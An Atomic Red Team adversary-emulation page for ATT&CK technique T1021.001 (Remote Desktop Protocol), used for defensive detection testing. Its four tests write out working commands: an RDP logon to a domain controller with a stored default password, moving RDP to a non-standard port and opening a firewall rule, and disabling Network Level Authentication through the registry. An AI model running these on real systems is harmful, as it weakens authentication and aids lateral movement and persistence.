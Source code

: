 ```yaml
---
tags: [T1021_001, atomic_test]
filename: "[[T1021.001|T1021.001 - Remote Services: Remote Desktop Protocol]]"
---
```


# T1021.001 - Remote Services: Remote Desktop Protocol
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1021/001)
<blockquote>Adversaries may use [Valid Accounts](https://attack.mitre.org/techniques/T1078) to log into a computer using the Remote Desktop Protocol (RDP). The adversary may then perform actions as the logged-on user.

Remote desktop is a common feature in operating systems. It allows a user to log into an interactive session with a system desktop graphical user interface on a remote system. Microsoft refers to its implementation of the Remote Desktop Protocol (RDP) as Remote Desktop Services (RDS).(Citation: TechNet Remote Desktop Services) 

Adversaries may connect to a remote system over RDP/RDS to expand access if the service is enabled and allows access to accounts with known credentials. Adversaries will likely use Credential Access techniques to acquire credentials to use with RDP. Adversaries may also use RDP in conjunction with the [Accessibility Features](https://attack.mitre.org/techniques/T1546/008) or [Terminal Services DLL](https://attack.mitre.org/techniques/T1505/005) for Persistence.(Citation: Alperovitch Malware)</blockquote>

## Atomic Tests

- [Atomic Test #1 - RDP to DomainController](#atomic-test-1---rdp-to-domaincontroller)

- [Atomic Test #2 - Changing RDP Port to Non Standard Port via Powershell](#atomic-test-2---changing-rdp-port-to-non-standard-port-via-powershell)

- [Atomic Test #3 - Changing RDP Port to Non Standard Port via Command_Prompt](#atomic-test-3---changing-rdp-port-to-non-standard-port-via-command_prompt)

- [Atomic Test #4 - Disable NLA for RDP via Command Prompt](#atomic-test-4---disable-nla-for-rdp-via-command-prompt)


<br/>

## Atomic Test #1 - RDP to DomainController
Attempt an RDP session via Remote Desktop Application to a DomainController.

**Supported Platforms:** Windows


**auto_generated_guid:** 355d4632-8cb9-449d-91ce-b566d0253d3e





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| logonserver | ComputerName argument default %logonserver% | string | $ENV:logonserver.TrimStart("&#92;")|
| domain | domain argument default %USERDOMAIN% | string | $Env:USERDOMAIN|
| username | Username argument default %username% | string | $ENV:USERNAME|
| password | Password | string | 1password2!|


#### Attack Commands: Run with `powershell`! 


```powershell
$Server=#{logonserver}
$User = Join-Path #{domain} #{username}
$Password="#{password}"
cmdkey /generic:TERMSRV/$Server /user:$User /pass:$Password
mstsc /v:$Server
echo "RDP connection established"
```

#### Cleanup Commands:
```powershell
$p=Tasklist /svc /fi "IMAGENAME eq mstsc.exe" /fo csv | convertfrom-csv
if(-not ([string]::IsNullOrEmpty($p.PID))) { Stop-Process -Id $p.PID }
```



#### Dependencies:  Run with `powershell`!
##### Description: Computer must be domain joined
##### Check Prereq Commands:
```powershell
if((Get-CIMInstance -Class Win32_ComputerSystem).PartOfDomain) { exit 0} else { exit 1}
```
##### Get Prereq Commands:
```powershell
Write-Host Joining this computer to a domain must be done manually
```




<br/>
<br/>

## Atomic Test #2 - Changing RDP Port to Non Standard Port via Powershell
Changing RDP Port to Non Standard Port via Powershell

**Supported Platforms:** Windows


**auto_generated_guid:** 2f840dd4-8a2e-4f44-beb3-6b2399ea3771





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| OLD_Remote_Port | Default RDP Listening Port | string | 3389|
| NEW_Remote_Port | New RDP Listening Port | string | 4489|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp' -name "PortNumber" -Value #{NEW_Remote_Port}
New-NetFirewallRule -DisplayName 'RDPPORTLatest-TCP-In' -Profile 'Public' -Direction Inbound -Action Allow -Protocol TCP -LocalPort #{NEW_Remote_Port}
```

#### Cleanup Commands:
```powershell
Set-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp' -name "PortNumber" -Value #{OLD_Remote_Port}
Remove-NetFirewallRule -DisplayName "RDPPORTLatest-TCP-In" -ErrorAction Ignore 
Get-Service TermService | Restart-Service -Force -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #3 - Changing RDP Port to Non Standard Port via Command_Prompt
Changing RDP Port to Non Standard Port via Command_Prompt

**Supported Platforms:** Windows


**auto_generated_guid:** 74ace21e-a31c-4f7d-b540-53e4eb6d1f73





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| OLD_Remote_Port | Default RDP Listening Port | string | 3389|
| NEW_Remote_Port | New RDP Listening Port | string | 4489|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d #{NEW_Remote_Port} /f
netsh advfirewall firewall add rule name="RDPPORTLatest-TCP-In" dir=in action=allow protocol=TCP localport=#{NEW_Remote_Port}
```

#### Cleanup Commands:
```cmd
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d #{OLD_Remote_Port} /f >nul 2>&1
netsh advfirewall firewall delete rule name="RDPPORTLatest-TCP-In" >nul 2>&1
net stop TermService /y >nul 2>&1
net start TermService >nul 2>&1
```





<br/>
<br/>

## Atomic Test #4 - Disable NLA for RDP via Command Prompt
Disables network-level authentication (NLA) for RDP by changing a registry key via Command Prompt
Disabling NLA for RDP can allow remote user interaction with the Windows sign-in screen prior to authentication. According to Microsoft, Flax Typhoon actors used this technique implementation to achieve persistence on victim systems: https://www.microsoft.com/en-us/security/blog/2023/08/24/flax-typhoon-using-legitimate-software-to-quietly-access-taiwanese-organizations/
See also: https://github.com/EmpireProject/Empire/blob/master/lib/modules/powershell/management/enable_rdp.py

**Supported Platforms:** Windows


**auto_generated_guid:** 01d1c6c0-faf0-408e-b368-752a02285cb2





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| Default_UserAuthentication | Default UserAuthentication registry value | string | 1|


#### Attack Commands: Run with `command_prompt`! 


```cmd
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /d 0 /t REG_DWORD /f
```

#### Cleanup Commands:
```cmd
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /d #{Default_UserAuthentication} /t REG_DWORD -f >nul 2>&1
```





<br/>
